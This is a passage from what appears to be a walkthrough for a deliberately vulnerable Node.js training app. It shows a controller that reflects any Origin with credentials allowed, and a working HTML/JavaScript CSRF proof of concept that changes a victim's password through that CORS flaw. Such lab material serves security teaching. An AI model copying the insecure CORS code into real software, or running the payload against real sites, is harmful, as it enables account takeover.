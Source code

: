 **Route: /routes/app.js**

```js
router.get('/cors-api-token', authenticateToken, vuln_controller.cors_api_token_get);

```

**Controller: /controllers/vuln_controller.js**

```js
const cors_api_token_get = (req, res) => {
    const apiToken = req.user.apiToken;
    if (req.get('origin') !== undefined) {
        res.header("Access-Control-Allow-Origin", req.get('origin'));
        res.header("Access-Control-Allow-Credentials", 'true');
    }
    res.render('cors-api-token', { apiToken })
}
```

## 14. CORS CSRF

`cors-csrf-edit-password` endpoint is used for updating password this endpoint only accepts content type `application/json` and it is not possible to send this content type without application allowing cross origin connection so we test for it and find out that endpoint is vulnerable to Cross Origin Resource Sharing we can exploit it to perform CSRF and change victim password.  

### Exploit:

1. Host the following code in an HTML file on your attacker server.  

```html
<html>
<body>
<center>CORS CSRF POC</center>
<script>
const data = {"password": "hacked", "password_confirm":"hacked"}

document.addEventListener('readystatechange', ()=>{
  fetch(
        'http://tauheedkhan.com:9000/cors-csrf-edit-password', {
        method: 'POST',
        credentials: 'include',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(data)
  })
    .then(resp => resp.text())
      .then(respText => {
        alert(respText);
      })
})
</script>
</body>
</html>
```
